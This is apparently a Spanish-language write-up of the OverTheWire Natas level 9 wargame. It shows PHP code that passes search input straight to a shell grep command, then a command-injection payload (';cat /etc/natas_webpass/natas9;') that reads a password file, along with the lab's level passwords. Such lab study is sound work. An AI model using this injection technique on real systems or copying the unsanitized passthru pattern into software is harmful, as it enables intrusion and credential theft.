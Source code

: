 # Natas 9

#### URL: http://natas9.natas.labs.overthewire.org/

#### Credenciales: natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

Lo que introduzcamos en la entrada de busqueda sera el argumento del comando grep.

``` php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Podemos introducir nuevos comandos simplemente usando ';COMANDO;', por ejemplo: 
``` bash
> grep -i ;echo hello there; dictionary.txt
Modo de empleo: grep [OPCIÓN]... PATRONES [FICHERO]...
Pruebe 'grep --help' para más información.
hello there
zsh: command not found: dictionary.txt
```

Como se puede observar se manda a la salida estandar el resultado de nuestro comando, y se manda al ERROR estandar el grep roto. Pero la funcion passthru no esta devolviendo el error estandar asi que veremos una salida limpia.

Podemos entonces introducir `;cat /etc/natas_webpass/natas9;` y obtener la contraseña:

![2025-03-19-214107_610x234_scrot](https://github.com/user-attachments/assets/eb22175d-4712-4561-86b5-1b268dfd367d)

`natas10:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`



